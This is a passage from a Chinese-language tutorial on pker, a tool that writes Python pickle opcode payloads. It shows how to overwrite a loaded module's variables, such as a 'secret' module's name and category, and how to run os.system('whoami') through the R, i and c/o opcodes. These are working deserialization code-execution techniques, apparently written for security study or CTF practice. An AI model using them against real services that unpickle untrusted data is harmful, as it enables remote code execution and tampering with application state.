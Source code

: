 注意：

1. 由于opcode本身的功能问题，pker肯定也不支持列表索引、字典索引、点号取对象属性作为**左值**，需要索引时只能先获取相应的函数（如`getattr`、`dict.get`）才能进行。但是因为存在`s`、`u`、`b`操作符，**作为右值是可以的**。即“查值不行，赋值可以”。
2. pker解析`S`时，用单引号包裹字符串。所以pker代码中的双引号会被解析为单引号opcode:

```
test="123"
return test
```

被解析为：

```
b"S'123'\np0\n0g0\n."
```

#### pker：全局变量覆盖

- 覆盖直接由执行文件引入的`secret`模块中的`name`与`category`变量：

```
secret=GLOBAL('__main__', 'secret') 
# python的执行文件被解析为__main__对象，secret在该对象从属下
secret.name='1'
secret.category='2'
```

- 覆盖引入模块的变量：

```
game = GLOBAL('guess_game', 'game')
game.curr_ticket = '123'
```

接下来会给出一些具体的基本操作的实例。

#### pker：函数执行

- 通过`b'R'`调用：

```
s='whoami'
system = GLOBAL('os', 'system')
system(s) # `b'R'`调用
return
```

- 通过`b'i'`调用：

```
INST('os', 'system', 'whoami')
```

- 通过`b'c'`与`b'o'`调用：

```
OBJ(GLOBAL('os', 'system'), 'whoami')
```

- 多参数调用函数
